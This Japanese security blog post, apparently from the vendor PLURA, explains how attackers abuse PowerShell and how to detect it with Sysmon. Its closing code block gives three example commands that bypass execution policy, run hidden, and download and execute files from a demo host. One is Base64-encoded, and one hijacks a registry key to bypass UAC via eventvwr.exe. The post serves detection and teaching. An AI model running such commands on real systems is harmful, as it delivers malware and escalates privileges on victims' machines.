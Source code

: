 ```yaml
---
date: 2020-05-12T00:03:00
draft: false
title: "PowerShellを利用した攻撃"
description: 
featured_image: "cdn/threats/powershell_attack_techniques-1.png"
tags: ["PowerShell", "マルウェア", "ウェブハッキング", "セキュリティ脆弱性", "PLURA"]
---
```


## PowerShell

PowerShellは、システム管理や自動化を目的に設計されたコマンドラインシェルおよびスクリプト言語です。  
Windows Vista以降に標準搭載されており、管理ツールとして有用である一方、攻撃者にも頻繁に利用されています。

<!--more-->
![powershell_attack_techniques](https://blog.plura.io/cdn/threats/powershell_attack_techniques-1.png)

---

### 1. 実行ポリシー (Execution Policy)

MicrosoftはデフォルトでPowerShellスクリプトの実行を制限しています。  
しかし、攻撃者はこれを簡単に回避することが可能です。  

**回避フラグ例:**  
- `-ExecutionPolicy` または `-EP Bypass`  
- `-ExecutionPolicy` または `-EP Unrestricted`  
- `-noprofile` または `-nop`  

*Profile Bypass: 各セッションの開始時にPowerShellを構成するために設定されたProfileも無視可能です。*

---

### 2. ダウンロード

PowerShellクラスおよびメソッドを使用して、マルウェアをダウンロードおよび実行することができます。  

頻繁に使用されるコマンド:  
- **New-Object**: .NET Frameworkのインスタンスを生成します。  
- **System.Net.WebClient**: リモートリソースとのデータ送受信に使用されます。  
- **DownloadString**: リモートからメモリバッファに内容をダウンロードします。  
- **DownloadFile**: リモートからローカルファイルとしてコンテンツをダウンロードします。  
- **IEX (Invoke-Expression)**: コマンドを実行します。  
- **ICM (Invoke-Command)**: ローカルおよびリモートコンピューターでコマンドを実行します。

---

### 3. エンコーディング

- PowerShellコマンドを隠蔽するためにBase64エンコーディングが頻繁に使用されます。  
- エンコーディングされたコマンドは、コマンドラインの長さが異常に長くなる場合があります。  
- 500文字を超える長いコマンドは、疑わしい可能性があります。

---

### 4. DLLの呼び出し

- 疑わしいDLL呼び出しの組み合わせを検出することで、悪意ある動作を特定できます。  
- PowerShell.exeまたはPowerShell_ISE.exe以外の実行ファイルで以下のDLL呼び出しが発生しているか監視します。  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)を活用して確認可能です。*

---

### 5. PLURAによるPowerShell悪意ある動作の検出

**Sysmonインストールが必須**  
- [インストールガイドを見る](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA検出](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### マルウェア実行の検出例

PowerShellの回避および攻撃者サーバーからのファイルダウンロード行為:  

![PowerShellマルウェア実行](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURAフィルタ検出**  
PLURAはSysmonを活用し、以下のような悪意あるコマンドを検出します:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 参考

- [SANS資料](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcomレポート](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab記事](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 関連記事・セキュリティニュース

- [セキュリティニュースを見る](https://bit.ly/2V99SLF)
